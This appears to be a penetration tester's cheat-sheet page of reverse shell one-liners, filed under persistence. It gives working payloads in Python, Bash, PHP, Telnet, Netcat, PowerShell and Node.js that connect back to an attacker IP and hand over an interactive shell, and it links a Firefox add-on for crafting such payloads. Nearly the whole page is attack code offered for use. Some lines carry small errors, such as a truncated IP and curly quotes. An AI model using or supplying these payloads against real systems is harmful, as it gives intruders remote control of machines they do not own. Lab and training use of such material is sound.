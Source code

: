 ```yaml
---
description: >-
  Reverse Shells
title:  Reverse Shells              # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence,  Reverse Shells]                     # Change Templates to Writeup
tags: [persistence, reverse shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_IP>",<attacker_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

### PHP
```php
# Example 1
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>
# Example 2
php -r '$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I
<&3 >&3 2>&3”);'
```
Example:
[[Fulcrum#^e70b79]]

### Telnet
```bash
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

### Netcat
```bash
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

### Netcat w/o “-e” option
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```

### Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-powershell)

### Node JS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Firefox Plugin
An excellent plugin to craft different payloads as Reverse Shells directly from firefox:
[hacktools](https://addons.mozilla.org/es/firefox/addon/hacktools/)

